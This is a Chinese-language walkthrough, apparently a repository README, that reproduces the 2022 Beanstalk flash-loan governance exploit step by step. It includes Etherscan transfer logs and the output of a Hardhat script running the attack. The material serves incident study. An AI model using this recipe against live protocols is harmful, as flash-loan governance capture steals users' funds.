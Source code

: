## 大致流程
攻击者创建了一个恶意提案,然后给这个提案投票，由于攻击者利用闪电贷获取了很多资金。项目合约中`propose`存在问题，只判断地址的资金，导致恶意提案被执行。

这个漏洞的分析参考这个:https://learnblockchain.cn/article/3909

本次的漏洞复现用了很多的技术，包括 aave,uniswap,sushiswap的flosh loan. crv的各种操作。值的复现。


## 复现流程

这里根据攻击者的操作分为以下几步

1.攻击者在通过UniswapV2将73 ETH兑换为212k BEAN。
```
https://etherscan.io/tx/0xfdd9acbc3fae083d572a2b178c8ca74a63915841a8af572a10d0055dbe91d219
From Uniswap V2: Router 2To Uniswap V2: BEAN 3 For 73 ($194,631.87)Wrapped Ethe... (WETH)
From Uniswap V2: BEAN 3To Beanstalk Flashloan Exploiter For 212,858.495697 ($12,916.58)Bean (BEAN)
```


https://etherscan.io/tx/0xcd314668aaa9bbfebaf1a0bd2b6553d01dd58899c508d4729fa7311dc5d33ad7

- 2.通过闪电贷从Aave平台借入350M DAI，500M USDC以及150M USDT，从Uniswap平台借贷32.1M BEAN，从SushiSwap平台借入11.6M LUSD
```
From Aave: aDAI Token V2To BeanstalkFlashloanContract For 350,000,000 ($350,350,000.00)Dai Stableco... (DAI)
From Aave: aUSDC Token V2To BeanstalkFlashloanContract For 500,000,000 ($499,924,500.00)USD Coin (USDC)
From Aave: aUSDT Token V2To BeanstalkFlashloanContract For 150,000,000 ($150,150,000.00)Tether USD (USDT)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 32,100,950.626687 ($4,252,333.27)Bean (BEAN)
From SushiSwap: LUSD-OHMTo BeanstalkFlashloanContract For 11,643,065.703498478902362927 ($11,641,596.71)LUSD Stablec... (LUSD)
```

- 3.将借入的DAI、USDC以及USDT全部投入到Curve DAI/USDC/USDT流动性矿池中，铸造出979,691,328个流动性代币3Crv。
```
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 350,000,000 ($350,350,000.00)Dai Stableco... (DAI)
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 500,000,000 ($499,924,500.00)USD Coin (USDC)
From BeanstalkFlashloanContract To Curve.fi: DAI/USDC/USDT Pool For 150,000,000 ($150,150,000.00)Tether USD (USDT)
From Null Address: 0x000…000 To BeanstalkFlashloanContract For 979,691,328.662155074401448409 Curve.fi DAI... (3Crv)
```


- 7.将15M 3Crv兑换成15,251,318 LUSD
```
From BeanstalkFlashloanContract To 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) For 15,000,000 Curve.fi DAI... (3Crv)
From 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) To BeanstalkFlashloanContract For 15,251,318.11920324226629485 ($15,249,393.88)LUSD Stablec... (LUSD)
```



- 8.将964,691,328 3Crv添加流动性获得795,425,740 BEAN3CRV-f

```
From BeanstalkFlashloanContract To Beanstalk: BEAN3CRV-f Token For 964,691,328.662155074401448409 Curve.fi DAI... (3Crv)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 795,425,740.813818200295323741 Curve.fi Fac... (BEAN3C...)
```



- 9.将32,100,950 BEAN以及26,894,383 LUSD添加流动性，获取58,924,887BEANLUSD-f
```
From BeanstalkFlashloanContract To Beanstalk: BEANLUSD-f Token For 32,100,950.626687 ($4,252,333.27)Bean (BEAN)
From BeanstalkFlashloanContract To Beanstalk: BEANLUSD-f Token For 26,894,383.822701721168657777 ($26,890,990.59)LUSD Stablec... (LUSD)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 58,924,887.872471876761750555 Curve.fi Fac... (BEANLU...)
```



- 10.使用上面得到的所有BEAN3CRV-f,BEANLUSD-f提案进行投票，使提案通过并执行。
```
From BeanstalkFlashloanContract To Beanstalk: Beanstalk Protocol For 795,425,740.813818200295323741 Curve.fi Fac... (BEAN3C...)
From BeanstalkFlashloanContract To Beanstalk: Beanstalk Protocol For 58,924,887.872471876761750555 Curve.fi Fac... (BEANLU...)
```

11.调用BIP18


- 12.然后获得了36,084,584 BEAN，0.5407 UNI-V2，874,663,982 BEAN3CRV-f以及60,562,844 BEANLUSD-f
```
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 36,084,584.376516 ($4,780,035.34)Bean (BEAN)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 874,663,982.237419391168556425 Curve.fi Fac... (BEAN3C...)
From Beanstalk: Beanstalk Protocol To BeanstalkFlashloanContract For 60,562,844.064129085666723423 Curve.fi Fac... (BEANLU...)
From Null Address: 0x000…000To BeanstalkFlashloanContract For 100 ($13.25)Bean (BEAN)
```


- 13,删除 874，663，982 CRV 单一流动性，以获得 1，007，734，729 CRV 代币
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 874,663,982.237419391168556425 Curve.fi Fac... (BEAN3C...)
From Beanstalk: BEAN3CRV-f TokenTo BeanstalkFlashloanContract For 1,007,734,729.918865110952432204 Curve.fi DAI... (3Crv)
```

- 14.删除 60562844 BEANLUSD-f 单一流动性，以获得 28149504 LUSD
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 60,562,844.064129085666723423 Curve.fi Fac... (BEANLU...)
From Beanstalk: BEANLUSD-f TokenTo BeanstalkFlashloanContract For 28,149,504.988150028822680438 ($28,145,953.39)LUSD Stablec... (LUSD)
```


- 15.归还SushiSwap闪电贷的11,678,100 LUSD
```
From BeanstalkFlashloanContract To SushiSwap: LUSD-OHM For 11,678,100.003509005920123297 ($11,676,626.59)LUSD Stablec... (LUSD)
```

- 16.将 32197543 BEAN 的闪存返回到 Uniswap V2  包含手续费
```
From BeanstalkFlashloanContract To Uniswap V2: BEAN 3 For 32,197,543.256457 ($4,265,128.65)Bean (BEAN)
```

- 17.将剩余的16,471,404 LUSD兑换成16,184,690 3Crv。
```
From BeanstalkFlashloanContract To 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract) For 16,471,404.984641022902557141 ($16,469,326.80)LUSD Stablec... (LUSD)
From 0xed279fdd11ca84beef15af5d39bb4d4bee23f0ca(Vyper_contract)To BeanstalkFlashloanContract For 16,184,690.4423706616519972 Curve.fi DAI... (3Crv)
```


- 18.移除511,959,710.180617886302214702 3Crv流动性，得到522,487,380 USDC，365,758,059 DAI以及156,732,232 USDT。
```
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 511,959,710.180617886302214702 Curve.fi DAI... (3Crv)
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 522,487,380.233548 ($522,408,484.64)USD Coin (USDC)
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 358,371,797.126432520411550291 Curve.fi DAI... (3Crv)
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 365,758,059.846650868575584745 ($366,123,817.91)Dai Stableco... (DAI)
From BeanstalkFlashloanContract To Null Address: 0x000…000 For 153,587,913.054185365890664411 Curve.fi DAI... (3Crv)
```


- 19.向Aave平台分别存入350,315,000 DAI，500,450,000 USDC以及150,135,000 USDT用于偿还闪电贷以及手续费。
```
From Curve.fi: DAI/USDC/USDT PoolTo BeanstalkFlashloanContract For 156,732,232.49236 ($156,888,964.72)Tether USD (USDT)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 192.544598265969491594 ($193.12)Aave interes... (aDAI)
From BeanstalkFlashloanContract To Aave: aDAI Token V2 For 350,315,000 ($350,665,315.00)Dai Stableco... (DAI)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 30.364909 ($30.36)Aave interes... (aUSDC)
From BeanstalkFlashloanContract To Aave: aUSDC Token V2 For 500,450,000 ($500,374,432.05)USD Coin (USDC)
From Null Address: 0x000…000To Aave: Aave Collector V2 For 89.259866 ($89.35)Aave interes... (aUSDT)
From BeanstalkFlashloanContract To Aave: aUSDT Token V2 For 150,135,000 ($150,285,135.00)Tether USD (USDT)
```


- 20.移除0.5407 UNI-V2的流动性，获得10,883 WETH以及32,511,085 BEAN并归还闪电贷的金额以及手续费。
```
From BeanstalkFlashloanContract To Uniswap V2: BEAN 3 For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Uniswap V2: BEAN 3 To Null Address: 0x000…000 For 0.540716100968756904 ($69,497,439.24)Uniswap V2 (UNI-V2)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 10,883.105341079068109889 ($32,261,659.81)Wrapped Ethe... (WETH)
From Uniswap V2: BEAN 3 To BeanstalkFlashloanContract For 32,511,085.804104 ($4,306,662.86)Bean (BEAN)
```

我们也只复现到这一步。合约中写了运行到那一步的序号,复现如下
```bash
npx hardhat run .\scripts\sample-script.js
exploitBIP address: 0xefAB0Beb0A557E452b398035eA964948c750b2Fd
beanExploit address:  0x5D42EBdBBa61412295D7b0302d6F50aC449Ddb4F
[1/xxx]Recieved 150M  USDT from Aave 150000000000000
[2/xxx]Recieved 500M USDC from Aave 500000000000000
[3/xxx]Recieved 350M DAI from Aave 350000000000000000000000000
[4/xxx]Recieved 32.1M BEAN from Uniswap 32100950626687
[5/xxx]Recieved 11.6M LUSD from Sushiswap 11643065703498478902362927
[6/xxx]Add DAI USDT USDC to Curve Pool 979691328662155074401448409
[7/xxx]exchange 3crv to lusd 26894383822701721168657777
[8/xxx]exchange 3crv to BEAN3CRV-f 795425740813818200295323741
[9/xxx]Add bean and lusd for BEANLUSD-f 58924887872471876761750555
we Bip: 20
[10/xxx]Executed Vote for BIP
[11/xxx]EXPLOXT BIP emergencyCommit !
[12/xxx] send  BEAN  UNI-V2   BEAN3CRV-f  BEANLUSD-f
[13/xxx]Remove single asset liquidity from BEAN3CRV-f
[14/xxx]Remove single asset liquidity from BEANLUSD-f
[15/xxx]Returned to sushiswap 11678100003509005920123297
[16/xxx]Returned to uniswap 32197543256457
[17/xxx]Exchange LUSD to CRV from LUSDCRV-f
[18/xxx]Remove liquidity from 3CRV Pool to get USDC, USDT & DAI back.
```



参考:
https://github.com/JIAMING-LI/BeanstalkProtocolExploit/

https://blockapex.io/beanstalk-hack-analysis-poc/

https://github.com/Rivaill/CryptoVulhub/blob/master/BeanstalkFarms20220417

https://learnblockchain.cn/article/3921